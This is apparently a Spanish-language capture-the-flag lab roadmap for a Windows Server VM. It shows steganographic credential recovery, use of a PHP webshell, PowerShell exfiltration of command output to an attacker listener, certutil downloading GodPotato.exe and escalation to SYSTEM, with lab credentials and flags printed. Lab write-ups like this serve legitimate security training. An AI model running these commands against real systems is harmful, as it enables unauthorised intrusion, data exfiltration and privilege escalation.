

# Welcome To The Jungle — Roadmap

> [!abstract] Cadena de explotación
> Esteganografía en WAV (`stegseek`) → credenciales web `slash:sweetjungle2025` → `/theh3xgun5/` → `panel.php` descarga `commlink.exe` → strings: `axl password: SoloMaster2025` → **USER flag** vía WinRM → **webshell PHP** en `panel.php` → ejecución como `IIS AppPool\DefaultAppPool` con `SeImpersonatePrivilege` → **GodPotato → SYSTEM** → **ROOT flag**.

## Diagrama



## Etapas

### 1. Reconocimiento
- **Objetivo:** mapa de servicios y de la web.
- **Evidencia:** `nmap -sV -sC -p-` → `80/tcp` (IIS 10.0), `135/139/445`, `5985` (WinRM), `47001`, `49664-49670`. OS CPE: `cpe:/o:microsoft:windows_server_2022`. Hostname `THEHEXGUNS`.
- **Decisión:** el 80/tcp con PHP 8.4.10 es la vía principal; WinRM es la vía de entrada al sistema.

### 2. Esteganografía (credenciales web)
- **Objetivo:** obtener credenciales de la aplicación web.
- **Comando:**
```bash
curl -s http://192.168.56.106/media/songs.zip -o songs.zip
unzip songs.zip            # → solo_final.wav + letra
stegseek solo_final.wav     # → prueba vacío
stegseek -p thehexguns solo_final.wav
# Password:sweetjungle2025
# URL:theh3xgun5
```
- **Interpretación / por qué:** el nombre de la banda (`The Hex Guns`) es la pista de la passphrase. La salida además entrega la ruta de la app: `/theh3xgun5/`.

### 3. Login web y `commlink.exe`
- **Objetivo:** avanzar a la zona autenticada.
- **Comando:**
```bash
curl -c c.txt -X POST http://192.168.56.106/theh3xgun5/ \
     -d "username=slash&password=sweetjungle2025"
curl -b c.txt http://192.168.56.106/theh3xgun5/panel.php
# → <a href="commlink.exe">Descargar</a>
```
- **Interpretación / por qué:** `panel.php` solo ofrece la descarga; el binario es el siguiente eslabón.

### 4. Reversing ligero de `commlink.exe`
- **Objetivo:** credenciales de Windows.
- **Comando:**
```bash
strings -n 5 commlink.exe | grep -iE "pass|band"
# Enter your band passphrase:
# axl password: SoloMaster2025
```
- **Interpretación / por qué:** el binario es un cliente de mensajería que revela la contraseña de `axl` (passphrase `GuitarHeroes1987`).

### 5. Problema: contraseña expirada (desfase de reloj)
- **Síntoma:** `STATUS_PASSWORD_EXPIRED` en WinRM; los intentos de alterar `biossystemtimeoffset` y `paravirt none` **no** funcionaron.
- **Solución aplicada:** consola interactiva de VirtualBox (VRDE VNC en `127.0.0.1:5900`) →
  `VBoxManage controlvm "<VM>" keyboardputscancode <scancodes>` + capturas `screenshotpng` + OCR → cambio de contraseña en el diálogo de Windows.
- **Resultado:** `thehexguns\axl:NuevaPass2026!` (funcional por WinRM).

### 6. USER flag
- **Comando:**
```bash
evil-winrm -i 192.168.56.106 -u axl -p 'NuevaPass2026!'
# type C:\Users\Axl\Desktop\user.txt
# 8f1aecc0263f4ccc3d67ac0bb6f218a9
```

### 7. Descubrimiento del webshell (pivote clave)
- **Objetivo:** RCE en el servidor.
- **Comando:**
```bash
curl -s http://192.168.56.106/theh3xgun5/panel.php | cat
# if (isset($_POST['cmd'])) { $output = shell_exec($cmd . " 2>&1"); }
```
- **Interpretación / por qué:** el `panel.php` es un **webshell** (`shell_exec`). La salida no se imprime en el HTML, por lo que hay que **exfiltrarla por un canal externo** (callback HTTP al atacante).

### 8. Exfiltración de salida vía callback
- **Comando (desde el objetivo):**
```powershell
$c = 'cmd /c whoami'
$o = cmd /c $c 2>&1 | Out-String
$b = [Text.Encoding]::UTF8.GetBytes($o)
Invoke-WebRequest -UseBasicParsing -Method POST -Uri 'http://192.168.56.1:8000/out' -Body $b
```
- **Resultado:** `iis apppool\defaultapppool`.
- **Interpretación / por qué:** el token del app pool tiene **más permisos de enumeración** que un usuario de escritorio: con él se pudieron listar 159 tareas programadas y 69 servicios, que como `axl` estaban restringidos.

### 9. Enumeración del trigger (y descarte del DLL hijack)
- **Objetivo:** localizar qué ejecutaba `setlist_uploader.exe` con privilegios.
- **Comandos (desde el webshell):**
```powershell
Get-ScheduledTask | Where-Object { $_.TaskPath -notlike '\Microsoft\*' }   # → 0
schtasks /query /fo LIST /v                                              # → 159, todas \Microsoft\Windows
Get-CimInstance Win32_Service | Where-Object { $_.PathName -notmatch '^"?C:\\Windows' }
Get-CimInstance -Namespace root\subscription -ClassName CommandLineEventConsumer
reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree /s
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty 'HKLM:\...\Winlogon' | Select Shell,Userinit
```
- **Resultado:** **sin trigger**. `uploader.log` seguía con fecha `27/07/2025 19:19:57` **después** de reiniciar la VM, y su formato en inglés no coincide con los strings del exe (españoles: `No se pudo cargar config.dll`, `Uploader ejecutado con `).
- **Decisión:** **descartar el hijack de `config.dll`** y buscar la escalada por otro lado.

### 10. Escalada a SYSTEM (GodPotato)
- **Objetivo:** SYSTEM para leer `root.txt`.
- **Hallazgo:** `whoami /priv` del app pool →
  `SeImpersonatePrivilege` ✔ · `SeAssignPrimaryTokenPrivilege` ✔ · `SeCreateGlobalPrivilege` ✔, y servicio `Spooler` en ejecución → familia *Potato* viable.
- **Comando:**
```powershell
# 1) subir la herramienta (certutil desde el listener HTTP del atacante)
certutil -urlcache -split -f http://192.168.56.1:8000/GodPotato.exe C:\Users\Public\gp.exe
# 2) ejecutar el Potato (imprescindible el flag -cmd)
Start-Process C:\Users\Public\gp.exe -ArgumentList "-cmd",'"cmd.exe /c whoami > C:\Users\Public\out.txt"' -Wait
# → nt authority\system
```
- **Interpretación / por qué:** `GodPotato` encamina la llamada a un servicio SYSTEM vía RPC y, con `SeImpersonatePrivilege`, suplanta el token SYSTEM.
- **Nota:** `PrintSpoofer` se probó primero y **colgó** (no creó el fichero); `GodPotato` funcionó a la primera.

### 11. ROOT flag
- **Comando:**
```powershell
$cmd = 'cmd.exe /c type "C:\Users\Administrador\Desktop\root.txt" > C:\Users\Public\root_out.txt 2>&1'
Start-Process C:\Users\Public\gp.exe -ArgumentList "-cmd","`"$cmd`"" -WindowStyle Hidden -Wait
```
- **Resultado:** `ef708b85a127545dec1ea99dcd1ebb17`
- **Verificación independiente:** `whoami` → `nt authority\system` + `dir` del Desktop del Administrador mostrando `root.txt` (32 bytes) en la misma ejecución.

### 12. Limpieza
- Eliminados: `config.dll`, `out_*.txt`, `pwn.bat` de `C:\Program Files\HexGuns`; `GodPotato.exe`, `PrintSpoofer64.exe`, scripts `.ps1`/`.bat` de `C:\Users\Public`; procesos colgados de PrintSpoofer terminados.
- Estado final: `HexGuns` con solo los 2 ficheros originales; `C:\Users\Axl\Desktop\user.txt` intacto.

## Problemas de entorno (resueltos)

| Problema | Solución |
|---|---|
| VM sin red (NIC bridged a interfaz Wi-Fi inexistente) | `VBoxManage modifyvm <vm> --nic1 hostonly` hacia `vboxnet0` |
| Contraseña de `axl` expirada por reloj en 2026 | Cambio de contraseña por **consola VirtualBox** (VNC + `keyboardputscancode` + OCR) |
| `evil-winrm` no interactivo con heredoc | Filtrar los códigos ANSI de la salida con `sed` (ver nota al pie) |
| `Get-Service` / WMI / `schtasks` denegados como `axl` | Reutilizar el token del **app pool de IIS** vía webshell |
| `PrintSpoofer` colgado sin generar salida | Usar `GodPotato -cmd "..."` (sintaxis obligatoria) |
| Salida de `shell_exec` no visible en el HTML | Exfiltrar por `Invoke-WebRequest -Method POST` a un listener local |

> [!tip] Filtrar códigos ANSI de `evil-winrm`
> La salida de `evil-winrm` incluye secuencias de escape. Se eliminan con un `sed` que quita el carácter ESC y las secuencias `CSI` que le siguen:
> ```bash
> sed $'s/\x1b\\[[0-9;?]*[A-Za-z]//g'
> ```

## Kill chain resumida

```text
songs.zip → solo_final.wav → stegseek(thehexguns) → slash:sweetjungle2025
  → /theh3xgun5/ → commlink.exe → axl:SoloMaster2025
  → consola VNC (caducada) → axl:NuevaPass2026!
  → USER flag (Axl\Desktop\user.txt)
  → panel.php shell_exec → IIS AppPool\DefaultAppPool (SeImpersonatePrivilege)
  → GodPotato → SYSTEM → ROOT flag (Administrador\Desktop\root.txt)
```

## Enlaces

- [[Welcome To The Jungle - Walkthrough]]
- [[Welcome To The Jungle - Evidencias]]
